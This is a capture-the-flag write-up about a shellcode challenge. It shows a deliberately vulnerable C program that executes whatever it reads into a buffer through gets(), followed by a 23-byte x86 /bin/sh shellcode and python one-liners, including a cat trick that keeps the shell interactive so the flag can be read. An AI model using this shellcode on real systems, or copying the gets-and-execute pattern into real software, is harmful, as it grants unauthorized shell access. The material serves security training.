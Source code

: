 This is the first challenge that may need some work. 
The vlun.c program read an input to a buffer `buf` then call it as a function `((void(*)())buf)()`.
To exploit this vlunerability we need to provide input as a shellcode ( a code that's already in machine language), 
because CPU will access it directly.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

The shellcode can be for any desire command but for this challenge it asks for shell, so we will search for a shellcode and provide
it as an input. 

This is a 23 bytes shellcode from shell-strom by Hamza Megahed [here](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'|.vuln
or 
$ python -c 'import pwn; print(pwn.shellcraft.linux.sh())'|.vlun
```

We can see that the shell has been invoked but inside vlun, and we lost the interaction with it. 
So we need to keep the interaction with it, John Hammond did that using cat [here](https://www.youtube.com/watch?v=Nn0fUJuQEsk&list=PL1H1sBF1VAKUmJio8DWjY0tHLwf3bl2ku&index=6). 
```
$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")';cat)|.vlun
```
simply then cat the flag.txt.

